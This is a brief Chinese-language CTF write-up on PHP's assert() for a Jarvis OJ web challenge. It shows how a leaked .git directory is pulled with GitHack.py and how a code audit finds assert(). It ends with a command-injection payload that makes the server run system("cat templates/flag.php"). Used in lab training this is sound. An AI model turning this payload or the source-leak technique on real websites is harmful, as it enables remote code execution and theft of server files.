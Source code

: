 assert()：

把字符串执行php代码。



列题讲解：

浙大ctf http://web.jarvisoj.com:32798/

使用sourceLeakHacker扫描发现存在git目录。

![](images/26F46C4B78464D97A4E3ED6BE4E0C9A2clipboard.png)

使用gitHacker下载文件：

```javascript
    GitHack.py http://web.jarvisoj.com:32798/.git/
```



![](images/1E2211D175B447D7AEB48884E5070957clipboard.png)



下载网页源码，进入flag.php发现，没有flag。此时代码审计

![](images/A250AE466F09420DB9C2326A68BEFDF7clipboard.png)

发现存在assert()函数，推测是任意代码执行。

payload:

page='.system("cat templates/flag.php;").'